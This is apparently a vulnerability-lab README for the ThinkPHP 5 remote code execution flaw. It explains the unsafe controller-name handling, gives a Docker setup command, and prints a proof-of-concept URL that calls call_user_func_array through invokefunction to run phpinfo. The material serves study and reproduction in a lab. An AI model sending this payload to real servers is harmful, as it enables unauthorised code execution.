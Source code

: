 # Thinkphp5 5.0.22/5.1.29 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

ThinkPHP is an extremely widely used PHP development framework in China. In its version 5, as processing controller name not correctly, it can execute any method if the website doesn't have mandatory routing enabled (which is default), resulting in a RCE vulnerability. 

Reference links：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## Environment Setup

Enter the following command：(ThinkPHP version:5.0.20)

```
docker-compose up -d
```

Visit `http://your-ip:8080` and you'll see the default page of ThinkPHP.

## POC

Directly visit `http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1` and it'll execute the phpinfo：

![](1.png)
